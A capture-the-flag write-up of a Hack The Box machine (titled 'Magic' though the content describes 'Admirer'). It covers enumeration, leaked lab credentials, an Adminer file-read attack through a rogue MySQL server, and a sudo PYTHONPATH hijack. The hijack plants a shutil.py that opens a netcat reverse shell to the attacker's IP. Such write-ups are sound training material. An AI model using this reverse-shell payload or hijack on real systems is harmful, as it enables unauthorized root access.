

# Hack The Box: Magic machine write-up

This was one of the most interesting machines I've solved in Hack The Box, learned some cool techniques. It taught me how recon never ends, despite having found many things there is always stuff to discover and bruteforce. On top of that, I learned that Python has a PYTHONPATH variable, used to load libraries! This, of course, can be hijacked, which is what we are going to do in the box.

Let's dig in! The IP of the machine is ``10.10.10.187``.

## Enumeration

I start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```
# Nmap 7.70 scan initiated Mon May 25 19:17:36 2020 as: nmap -p- -sV -sC -oA nmap/all 10.10.10.187
Nmap scan report for 10.10.10.187 (10.10.10.187)
Host is up (0.075s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 25 19:35:29 2020 -- 1 IP address (1 host up) scanned in 1072.95 seconds
```

Interesting, we have FTP, a web server and SSH! I first tried to see if anonymous login was allowed in the FTP server but no luck, so decided to dive into the web application.

### Port 80 enumeration

We can see that this is some sort of photography website:

*Initial webpage*


Now, one interesting thing my nmap scan caught was `robots.txt`. I visited it and found two interesting things: a username (`waldo`) and a directory (`admin-dir`).

*Robots.txt information*


Now the message was pretty explicit so I manually tried to get the files myself without bruteforcing and to my surprise managed to get them in the first few tries: `credentials.txt` and `contacts.txt`.

```bash
root@kali:~/Desktop/Admirer# curl http://admirer.htb/admin-dir/credentials.txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
root@kali:~/Desktop/Admirer# curl http://admirer.htb/admin-dir/contacts.txt
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb


##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb


#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

Looks like we have credentials for the FTP service: `ftpuser`:`%n?4Wz}R$tTF7`.

### Port 21 enumeration

I logged in using the credentials found to find two files, both of which I downloaded to inspect locally.

*FTP connection*


- `dump.sql` didn't contain useful information, as it was only a text file with the schema of a database.
- `html.tar.gz` contained the following files:

*Files contained in tar file*


I started to inspect files in `/w4ld0s_s3cr3t_d1r` and found that credentials had an extra set: `[Bank Account]`. However, I couldn't find any way to use them.

*New credentials found*


Then I moved on to `/utility-scripts` and found different scripts, out of which `db_admin.php` was the most interesting:

```
<?php
  $servername = "localhost";
  $username = "waldo";
  $password = "Wh3r3_1s_w4ld0?";

  // Create connection
  $conn = new mysqli($servername, $username, $password);

  // Check connection
  if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error);
  }
  echo "Connected successfully";


  // TODO: Finish implementing this or find a better open source alternative
?>
```

There was another one called `info.php` which called `phpinfo()`:

*Discovering new files*


However, once again, the credentials weren't useful. I then looked at `index.php` and found, once again, more credentials. But guess what? I wouldn't be able to use them anywhere.

```
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```

I was out of ideas.

### Back to port 80

With this new information I figured that I was missing some kind of information, so I started to bruteforce files again. I tried with all the new directories from the files that I had got from the FTP service and eventually got something!

*Discovering new files*


*Adminer instance on /utility-scripts/adminer.php*


Ironically none of the credentials worked, I tried many combinations but not a single one gave me access. A bit lost again I decided to look for exploits given the version of Adminer. I stumbled upon this article: https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f.

Then, after a bit more of googling I found that there is a serious flag in Adminer via which an attacker can connect to their local SQL server and request local files! Here is the [article](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool).

## Gaining user

The strategy was simple: set up a local SQL server, then request files until we get some sort of credentials.

### Setting up the SQL server

I first started the service and set up a database called `test`.

*Setting up the database*


Then I had to open up the database to allow remote connections. I used this [article](https://websiteforstudents.com/configure-remote-access-mysql-mariadb-databases/) as a guide. This was done by modifying `/etc/mysql/mariadb.conf.d/50-server.cnf`:

```
bind-address = 0.0.0.0
```

Then restart the server and we could get connections!

*Connecting to my local database*


Hmmmm, I kept on reading the article and realised I hadn't granted permissions!

*Granting permissions (part 1)*


Weirdly enough, I didn't get in. However, the error message was different.

*Different error on second attempt*


Then I granted permissions to the normal root user and was in!

*Granting permissions (part 2)*


*Exploit successful*


### Reading local files

I started to read local files with `/etc/passwd` but there appeared to be some sort of restriction to read files from absolute paths.

*Reading files restriction*


So I figured that I could try to read `index.php`. My reasoning was the following: as this was the database of the website and in the `index.php` from the FTP server I had found some credentials, then if I could get the actual `index.php` I could get the valid credentials for the database. Eventually using `../index.php` worked.

*Executing SQL commands*


*Reading the source code*


*Getting new credentials*



Now with this new set of credentials I was able to access the local database and started looking around. However, I couldn't find anything juicy. Then it dawned on me that these credentials could actually be the username and password for the SSH! I tried and was in.

*Using the database credentials for SSH*


## Privilege escalation

As always, I started running `sudo -l` to see if I could run something as root being `waldo`.

*Sudoers file*


Turns out I do so I quickly went and checked out `/opt/scripts/admin_tasks.sh`:

```
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}


# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi


# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```

I thought about using a path hijacking with `echo`, as it was the only command that wasn't using an absolute path, but then realised it could actually never work because of the fact that when running as sudo the path will be changed.

I kept reading and found the following line: `/opt/scripts/backup.py &`. It seemed interesting, as in the past I've had privilege escalations with Python import libraries hijackings.

```
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Now, it took me a bit to put everything together and see how it fit. Turns out that the `SETENV` directive expects us to pass some variable to the program being run as sudo so we can actually pass a `PYTHONPATH` variable pointing to a directory where we have a malicious `shutil.py` with a function called `make_archieve`.

```bash
waldo@admirer:/tmp$ cat shutil.py
def make_archive(a,b,c):
	__import__('os').system('nc -e /bin/sh 10.10.15.101 1234')
```

Then we run `sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh` and we get root.

*Root command execution*


This is everything, I hope you enjoyed the writeup and learned something new! If you liked it you can give me respect on Hack The Box through the following link: <https://www.hackthebox.eu/home/users/profile/31531>. Until next time!

---

*Diego Bernal Adelantado*
